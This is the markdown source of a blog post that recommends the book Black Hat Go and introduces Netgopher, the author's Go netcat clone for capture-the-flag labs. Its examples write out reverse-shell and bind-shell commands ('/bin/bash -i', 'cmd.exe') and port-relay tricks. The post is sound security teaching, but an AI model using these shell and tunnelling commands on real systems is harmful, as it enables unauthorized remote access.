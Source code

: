 ```yaml
---
defaults:
  # _posts
  - scope:
      path: ""
      type: posts
    values:
      layout: single
      author_profile: true
      read_time: true
      comments: false
      share: true
      related: true
title:  "Black Hat Go and Netgopher"
date:   2021-01-30 21:00:00 +0000
header:
  overlay_image: /assets/images/posts/netgopher/go.gif
  teaser: /assets/images/posts/netgopher/go.gif
  caption: A very excellent animated gopher courtesy of [egonelbre](https://github.com/egonelbre) - Check them out, they're very nice!
excerpt: "New tool who dis?"
categories:
  - Labs & Hacking
  - Programming
tags:
  - Lab
  - Go
feature_row1:
  - image_path: /assets/images/posts/netgopher/BHG.webp
    excerpt: "Black Hat Go is an excellent No Starch Press book covering the use of Golang for Pen Testing, bug bounty and other offensive security practices. It also has a pretty cool cover."
    url: https://nostarch.com/blackhatgo
    btn_label: "Check out The Book"
    btn_class: "btn--inverse"
---
```


# What's all this about?

This week, I dug out my dusty copy of Black Hat Go, a book I've been getting 
around to reading for an age. Long story short - I loved the first couple of 
chapters so much I thought I'd recommend it right off the bat. 

{% include feature_row id="feature_row1" type="left" %}

## How will this change my life?

If you're into your offensive security, using Go will add a really nice new 
skillset to your box of tricks. Go will let you build tools (simple or complex, 
up to you!) that compile to a single (fairly small) 'blob', with simple 
concurrency and thread management, excellent cross-compilation (No Wine!) and 
a compilation/testing command that's almost as simple as developing a Python 
script.  

I'd suggest that working with Go like this is probably going to be a bit easier 
if you are comfortable working with Bash or maybe a little bit of Python (even 
just being able to read these will be enough), but don't let that hold you back 
if you're keen.  I've gone through the first chapter or two so far and in just 
a couple of evenings, the book has guided me through some really nice simple TCP 
tooling. 

Most of my exposure to compiled languages comes from solving awkward Mathematical
 problems at Univeristy, so learning Go was a little outfacing because I wanted
to avoid that again. So far it's been nothing like that, it's giving me serious 
Python vibes in the ease of drafting, testing and availability/usability of 
(mostly core) Libraries, I think I might be a convert! If you're worried about 
the learning curve, you could always get the basic syntax and conventions down 
via Codeacademy, Sololearn etc.

# Netgopher

Enter Netgopher. *What is that?* I hear you cry? Well to be honest, it's the same 
example Netcat mimic that every person starting on Black Hat Go or Black Hat 
Python (Another No Starch belter) puts on their Github. That said, I've tried 
to make my super simple implementation of Netcat a bit more useful for myself
as I work CTFs and so on. 

In addition to the usual example TCP connection functionality, I've Googled it 
up and added some better command line parsing and options goodness, whilst most 
of the Netcat 'extra features' (hexdump, UDP etc.) are not included, you can do 
enough to get by on simple HackTheBox/TryHackMe/VulnHub boxes with TCP 
connections, command execution and built-in  port relaying (best bit IMHO). 

{% include figure
image_path="/assets/images/posts/netgopher/relay.gif"
alt="Example gif of Relay usage" caption="An example of a connection to connection 
relay. A Pair of listeners are started, then a connecting relay is set up, by 
starting two connections via Netgopher." %}

So if you're curious about Go, maybe you're thinking about it, why not grab this 
script and have a go? If I can do this in a couple of evenings, you definately 
can! Read the source and play with Netgopher as set out below and happy hacking! 

The rest of this post is actually a glorified excerpt from the README on the 
[Github Repo](https://github.com/blackfell/ng){:target="_blank"}. So feel free 
to check that out too if you know where you're going from here.

# Installation

You can **but probably shouldn't**  get Netgopher by running the following 
command once you have Go installed:

```
❯ go get -u "github.com/blackfell/ng"
```

## Why not? 

Well installing this way will only install ng in your local $GOPATH; 
additionally, the binary will be fairly large and compiled only for your OS. 

I wrote this little application with CTFs in mind, meaning I want a smaller 
binary, preferably with multi-platform support, so... **grab a copy of all the 
[released binaries](https://github.com/Blackfell/ng/releases/tag/v0.1) instead**
, which have been cross compileed and stripped down to ~ 2MB. 

# Examples

## Basic Usage

```
❯ ng                                                                                                 ─╯
Usage of ng:
  -c value
        Make a TCP Connection : -c 127.0.0.1:8080
  -e string
        Execute a command (quote) : -e '/bin/bash -i'
  -h    Print detailed usage.
  -l value
        Listen on a port : -l 4444
  -v    Display detailed progress messages.
```

The simplest examples are the classic netcat connect and listen functions. You 
can try this out with a listener/connection pair:

{% include figure
image_path="/assets/images/posts/netgopher/basic.gif"
alt="Example gif of listener and connection usage" caption="An example of 
listeners and connections.A listener is started, then a connection made from 
the same host." %}

## CTF Use Cases
Some really common use cases I have are:
### Start an interactive Bash shell and connect back to a remote listener:
```
# Start a listener on your remote machine
❯ ng -l 1234
# Start the shell
❯ ng -c remote_host:1234 -e '/bin/bash -i'
```
### Start a shell on a bind listener.
This is useful in certail cases because you can create as many conenctions 
as you like - if your shell drops, just re-connect.
```
❯ ng -l 1234 -e 'cmd.exe'
# Now connect up to the shell
❯ ng -c serving_host:1234
C:\Windowss\system32>
^C
# Oh no! Your shell dropped - try again:
❯ ng -c serving_host:1234
C:\Windowss\system32>

```
### Forward a TCP port back to a remote listener:
```
# Start a relay on your local host
❯ ng -l 1234 -l 445
# On your remote host, forward a connection to local port 445
❯ ng -c local_hostname:1234 -c 127.0.0.1:445
# Your local machine now has access to that remote port 445 on 127.0.0.1:445
```
### Port 'spoofing' - Forward incoming connections to local port:
```
# Listen on port 1234 and forward connections to ssh server
❯ ng -l 1234 -c 127.0.0.1:22
```
# That's it!

So there you have it - if this peaked your interest why not grab a copy of 
Netgopher and have a messaround, or read the source? If you have any thoughts, 
I welcome issues, pulls, emails, tweets and more, just hit one of the socials 
below. I hope I've insipired you to check out some Go, or even program a 
little in something - anything.

## Get your copy on sale

It's also worth noting that if you're into this, 
[Humble Bundle](https://www.humblebundle.com/) also host periodic super cheap 
sales of No Starch Press books- that's where I got my copy (in eBook form) and 
it might be a good idea to keep your eyes peeled for similar sales in future. 
Peace!
